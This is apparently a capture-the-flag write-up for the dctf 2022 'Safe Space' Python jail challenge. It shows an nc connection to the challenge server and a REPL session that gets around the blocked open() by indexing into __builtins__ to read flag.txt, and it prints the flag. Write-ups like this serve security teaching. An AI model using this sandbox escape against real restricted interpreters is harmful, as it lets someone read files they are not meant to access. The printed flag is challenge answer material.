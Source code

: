```yaml
---
title: "dctf 2022 Safe Space writeup"
description: "dctf 2022 Python Jail Problem Safe Space writeup"
date: 2022-04-18T10:41:39+08:00
tags: [dctf, ctf-writeups]
---
```


## The problem

![](https://s2.loli.net/2022/04/18/Cys8U5m2RFGEON6.png)

[link to the problem(requires login)](https://dctf.dragonsec.si/challenges#Safe%20Space-18)

## Solution

First, connect to the remote server:

```shell
nc 51.124.222.205 13379
```

After interacting with the server, you'll find that the server is a python REPL with a lot of charcters and functions such as ```"```` unavaliable. 
This type of problem is called [python sandbox escape](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes), or python jail.

After trying all the commands from the internet, you'll find that the command `__builtins__` is not banned for this problem.
Inside the `__builtins__` dict, 
we have FILE set to `flag.txt`, and the open function, which is also unavaliable if entered directly.

Therefore, to read the contents of flag.txt, we can use the list of vlaues in __builtins__ dict, and access it by index.
Here's the entire process: 
```python
>>>__builtins__
{'open': <built-in function open>, 'print': <built-in function print>, 'list': <class 'list'>, 'FILE': 'flag.txt'}
>>>FILE
flag.txt
>>>open(FILE).read()
Yeah no.
>>>list(__builtins__.values())[0](FILE).read()
dctf{bur5t_y0ur_bubbl3}
```

Thus, the flag is `dctf{bur5t_y0ur_bubbl3}`

